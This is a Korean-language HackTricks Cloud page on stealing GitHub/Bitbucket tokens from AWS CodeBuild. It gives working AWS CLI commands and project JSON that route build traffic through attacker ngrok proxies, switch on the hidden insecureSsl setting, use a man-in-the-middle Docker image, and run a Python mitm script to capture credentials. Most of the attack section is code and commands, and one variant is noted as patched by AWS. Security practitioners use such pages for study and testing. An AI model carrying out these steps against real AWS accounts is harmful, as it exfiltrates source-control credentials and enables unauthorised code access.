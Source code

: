 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket에 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

만약 계정에 Github에 대한 인증이 설정되어 있다면, Codebuild가 프로젝트 빌드를 실행하기 위해 **특정 도커 이미지를 사용하도록** 하여 **엑스필트레이트**할 수 있습니다 **액세스** (**GH 토큰 또는 OAuth 토큰**).

이를 위해 **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **env 변수 `https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`**을 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며, **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자신의 Docker MitM 이미지를 생성하고 업로드**
* 리포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정한 후 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* **`ngrok`**을 사용하여 `ngrok tcp 4444`로 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지가 빌드되면 **공개 리포지토리에 업로드**합니다 (Dockerhub, ECR...).
2. **환경 설정**
* **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트를 **이전에 생성된 Docker 이미지**를 사용하도록 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정**

* **Github 리포지토리**에 명시된 대로 다음과 같은 것을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이것은 aws cli를 사용하여 다음과 같이 수행할 수도 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** 프로젝트에는 웹에서 숨겨져 있는 **`insecureSsl`**이라는 설정이 있으며, API를 통해서만 변경할 수 있습니다.\
이 설정을 활성화하면 Codebuild가 플랫폼에서 제공하는 인증서를 **확인하지 않고** 저장소에 연결할 수 있습니다.

* 먼저 다음과 같은 방법으로 현재 구성을 열거해야 합니다:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* 그러면 수집한 정보를 사용하여 프로젝트 설정 **`insecureSsl`**을 **`True`**로 업데이트할 수 있습니다. 다음은 제가 프로젝트를 업데이트한 예시로, 끝에 **`insecureSsl=True`**가 있는 것을 주목하세요 (수집한 구성에서 변경해야 할 유일한 사항입니다).
* 또한 env 변수 **http\_proxy**와 **https\_proxy**를 tcp ngrok을 가리키도록 추가하세요: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)로 지정된 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **자격 증명**이 **명확한 텍스트**(base64)로 mitm 포트에 **전송됩니다**:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP 프로토콜을 통해~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주 중에 AWS에 의해 수정되었습니다 (금요일이라고 생각합니다). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰을 유출할 수 있습니다**. 또는 권한이 OAuth를 통해 구성된 경우, **코드에 접근하는 데 사용되는 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 **http\_proxy** 및 **https\_proxy** 환경 변수를 자신의 머신을 가리키도록 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github repo의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: `http://github.com/carlospolop-forks/TestActions`
* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **credentials**가 mitm 포트로 **명확한 텍스트**(base64)로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 머신에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (악용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
